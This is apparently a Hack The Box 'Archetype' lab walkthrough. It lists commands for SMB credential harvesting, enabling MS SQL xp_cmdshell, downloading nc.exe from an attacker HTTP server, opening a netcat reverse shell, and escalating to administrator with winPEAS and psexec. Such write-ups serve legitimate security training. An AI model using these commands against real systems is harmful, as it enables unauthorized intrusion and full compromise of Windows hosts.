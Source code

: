 # Archetype

## Nmap & Footprinting

- Run an nmap scan to collect IP, OS, version, and port information
	* `sudo nmap -sV -sC -oA ./nmap/archetype 10.129.181.76`
- TCP port that is hosting the database is port `1433`

![Diagram](https://github.com/aele1401/HacktheBox/blob/main/Archetype/Images/nmap_scan.png)

## SMB Shares

- Run smbclient command to view smb shares
	* `smbclient -N -L \\\\10.129.16.28\\`
	* Name of the non-administrative share available over SMB is `backups`we can tell this is the non-administrative share because all administrative shares are marked with `$`.

![Diagram](https://github.com/aele1401/HacktheBox/blob/main/Archetype/Images/sharename.png)

- Access the SMB share "backups" to obtain username and password:
	* `smbclient -N \\\\10.129.16.28\\backups`
	* `ls`
	* `get prod.dtsconfig`
	* `exit`
	* `echo "M3g4c0rp123;User ID=ARCHETYPE\sql_svc" > user.txt`

- The password identified in the SMB share is `M3g4c0rp123`

![Diagram](https://github.com/aele1401/HacktheBox/blob/main/Archetype/Images/user_password.png)

## MS SQL Client

- `Mssqlclient.py` script from impacket collection can be used in order to establish an authenticated connection to a Microsoft SQL Server. Since the credentials for the share has been acquired, locate and access MS SQL Client:
	* `locate mssqlclient`
	* `/usr/bin/impacket-mssqlclient ARCHETYPE/sql_svc@10.129.16.28 -windows-auth`
	* Password: `M3g4c0rp123`

![Diagram](https://github.com/aele1401/HacktheBox/blob/main/Archetype/Images/accessing_mssqlclient.png)

## XP Command Shell

- `Xp_cmdshell` extended stored procedure of Microsoft SQL Server can be used in order to spawn a Windows command shell. Enable the xp_cmdshell, upload an Netcat listener for a reverse shell to establish a direct command line access.
	* `help`
	* `enable xp_cmdshell`
	* `RECONFIGURE`
	* Confirm the command shell is enabled with: `xp_cmdshell "whoami"`
## Netcat

* Locate the "nc.exe" file on Kali machine, if not installed, it will need to be installed.
* In a separate terminal in Kali navigate to the directory where the "nc.exe" is and run: `sudo python3 -m http.server 80`
	* Go back to xp_cmdshell and download "nc.exe" from local machine to target `xp_cmdshell "powershell -c cd c:\Users\sql_svc\Downloads; wget http://10.10.16.233/nc.exe -outfile nc.exe"`
	* The Netcat was downloaded to the target successfully after receiving the "200" status response code.
* Open another terminal in Kali and navigate to the directory above and and run `nc -lvnp 4444` to listen on port 4444.
	* Execute `xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\nc.exe -e cmd.exe 10.10.16.233 4444` to establish direct command line access.

	![Diagram](https://github.com/aele1401/HacktheBox/blob/main/Archetype/Images/xp_cmdshell_netcat.png)

	* Navigate to the directory that contains Flag1
		
	![Diagram](https://github.com/aele1401/HacktheBox/blob/main/Archetype/Images/flag.txt.png)

## Privilege Escalation (winPEAS)

* `WinPEAS script` can be used in order to search possible paths to escalate privileges on Windows hosts. Since there is no access to the Admin directory, winPEAS will be used to acquire the admin credentials.
	* Enter `powershell` 
	* `wget http://10.10.16.233/winPEASx64.exe -outfile winPEAS.exe`
	* Run `.\winPEAS.exe`
			
	![Diagram](https://github.com/aele1401/HacktheBox/blob/main/Archetype/Images/winpeas.png)

	* `ConsoleHost_history.txt` contains the admin password. Locate the Administrative credentials, copy and paste credentials into Kali.
	* In Kali, enter `locate psexec`
	* Enter `/usr/bin/impacket-psexec administrator@10.129.181.76`
	* Enter password 
	* Locate the root flag
			
	![Diagram](https://github.com/aele1401/HacktheBox/blob/main/Archetype/Images/root.txt.png)

